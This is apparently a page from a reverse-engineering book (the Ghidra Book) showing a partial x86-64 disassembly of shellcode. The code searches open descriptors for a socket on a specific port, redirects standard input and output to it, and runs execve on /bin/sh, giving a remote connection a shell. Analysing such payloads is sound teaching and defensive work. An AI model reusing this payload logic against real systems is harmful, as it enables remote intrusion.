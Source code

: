 ```

  00000014  6A34              push byte +0x34

  00000016  58                pop rax

  00000017  0F05              syscall

  00000019  48FFC7            inc rdi

  0000001C  66817E024A67      cmp word [rsi+0x2],0x674a

  00000022  75F0              jnz 0x14

  00000024  48FFCF            dec rdi

  00000027  6A02              push byte +0x2

  00000029  5E                pop rsi

  0000002A  6A21              push byte +0x21

  0000002C  58                pop rax

  0000002D  0F05              syscall

  0000002F  48FFCE            dec rsi

  00000032  79F6              jns 0x2a

  00000034  4889F3            mov rbx,rsi

  00000037  BB412F7368        mov ebx,0x68732f41

  0000003C  B82F62696E        mov eax,0x6e69622f

  00000041  48C1EB08          shr rbx,byte 0x8

  00000045  48C1E320          shl rbx,byte 0x20

  00000049  4809D8            or rax,rbx

  0000004C  50                push rax

  0000004D  4889E7            mov rdi,rsp

  00000050  4831F6            xor rsi,rsi

  00000053  4889F2            mov rdx,rsi

  00000056  6A3B              push byte +0x3b

  00000058  58                pop rax

  00000059  0F05              syscall

ghidrabook#
```
